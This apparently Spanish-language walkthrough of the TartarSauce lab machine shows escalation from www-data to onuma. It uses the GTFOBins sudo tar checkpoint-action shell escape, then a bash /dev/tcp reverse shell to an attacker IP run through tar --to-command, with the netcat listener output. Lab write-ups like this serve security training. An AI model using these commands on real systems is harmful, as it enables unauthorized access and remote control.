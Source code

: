Ya ingresamos a la máquina como el usuario *www-data*. Para trabajar más cómodos, hacemos un [Tratamiento de la tty](/tratamiento-tty). Ahora enumeramos un poco el sistema para ver como podríamos escalar privilegios.

```bash
www-data@TartarSauce:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
www-data@TartarSauce:/$ 
```

Vemos que podemos ejecutar el binario `/bin/tar` como el usuario **onuma**; así que vamos a nuestro sitio de confianza [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) para ver como podemos convertirnos en el usuario **onuma**:

```bash
www-data@TartarSauce:/home$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
$ whoami
onuma
$
```

Ya somos el usuario **onuma**. Otra forma que tenemos aprovechando el privilegio para el binario `/bin/tar` seria creandonos un archivo `sh` en una carpeta donde tengamos privilegios de escritura `/tmp`.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.16/443 0>&1
```

Ahora comprimimos el archivo con `tar`:

```bash
www-data@TartarSauce:/tmp$ tar -cvf reverse.tar reverse.sh 
reverse.sh
www-data@TartarSauce:/tmp$
```

Nos ponemos en escucha a través del puerto 443 en nuestra máquina de atacante y descomprimimos el archivo `reverse.tar` con la opción `--to-command`:

```bash
www-data@TartarSauce:/tmp$ sudo -u onuma tar -xvf reverse.tar --to-command /bin/bash
reverse.sh
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.88] 34234
onuma@TartarSauce:/tmp$ whoami
whoami
onuma
onuma@TartarSauce:/tmp$
```
